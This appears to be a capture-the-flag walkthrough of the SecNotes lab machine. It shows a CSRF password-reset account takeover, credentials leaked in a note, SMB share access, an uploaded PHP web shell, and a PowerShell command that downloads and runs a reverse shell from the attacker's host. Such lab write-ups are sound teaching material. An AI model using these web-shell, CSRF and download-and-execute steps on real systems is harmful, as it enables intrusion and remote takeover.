

# 10 - HTTP


A simple login page, probably not a CMS. Moreover it has Sign up option. Before creating an account, we should try somedefault default credentials like:


* root:root
* admin:admin
* administrator:password


# User Enumeration


"No account found with that username" this error is giving us more information than it should, it is open to bruteforce attacks since we have a way to tell if a user exists.


# Home page after registration


**New Note** simply creates notes on the home page nothing too interesting there. **Contact Us** page is interesting because we can interact with the user Tyler.  We will come to **Change Password** in a moment.

# Contact Us


The first thing that we should try, before testing cross site scripting, is whether the user follows links. I am dropping a simple link, if we get a hit that would be great.


# Tyler follows links


Tyler is our target, in order to pwn their account we need to steal their cookies or password. One way to steal their password is through cross site scripting however it doesn't work on this user(probably not using a browser), I suppose that is a hint that there are easier ways to get the user's password.

# change_pass.php
```bash
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: http://10.10.10.97
DNT: 1
Connection: close
Referer: http://10.10.10.97/change_pass.php
Cookie: PHPSESSID=kpq1aub2gbcpnkip7jpt4tp72d
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

password=refikpass&confirm_password=refikpass&submit=submit
```

Password reset request doesn't contain CSRF token or old password. We can generate a get request with this to send to Tyler.


# Password change link for Tyler


Tyler's password will become refikpass if they accept it.


# Tyler


Finally, we successfully logged in as tyler.


# New site note



The last note contains credentials.

* tyler:92g!mA8BGjOirkL%OG*&

\\\\secnotes.htb\\new-site
tyler / 92g!mA8BGjOirkL%OG*&

# Shares
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes]
└──╼ $ cme smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --shares
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
SMB         10.10.10.97     445    SECNOTES         [+] Enumerated shares
SMB         10.10.10.97     445    SECNOTES         Share           Permissions     Remark
SMB         10.10.10.97     445    SECNOTES         -----           -----------     ------
SMB         10.10.10.97     445    SECNOTES         ADMIN$                          Remote Admin
SMB         10.10.10.97     445    SECNOTES         C$                              Default share
SMB         10.10.10.97     445    SECNOTES         IPC$                            Remote IPC
SMB         10.10.10.97     445    SECNOTES         new-site        READ,WRITE      
```


new-site is probably referring to the webserver, if that is true, with the write access to the share, we can place a reverse shell.

# The web server running on port 8808


This doesn't look like the server we have been dealing with. It could be the server on port 8808 because iisstart.htm is the default page for IIS. Code execution will go from there. 

# exploit.php
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes]
└──╼ $ cat exploit.php 
<?php system($_REQUEST['cmd']);?>
```

exploit.php is a simple php script. It executes the value of the cmd paramater. The next step is uploading the script.


# Upload exploit.php
```bash
smb: \> put exploit.php
putting file exploit.php as \exploit.php (0.2 kb/s) (average 0.2 kb/s)
```


# Remote code execution


Now we can safely prepare our reverse shell.

# Reverse powershell script
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes/www]
└──╼ $ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 rev.ps1
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes/www]
└──╼ $ tail -1 rev.ps1 
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 4444
```


# Download and execute the reverse shell
```bash
POST /exploit.php HTTP/1.1
Host: 10.10.10.97:8808
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=kpq1aub2gbcpnkip7jpt4tp72d
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

cmd=powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/rev.ps1')
```


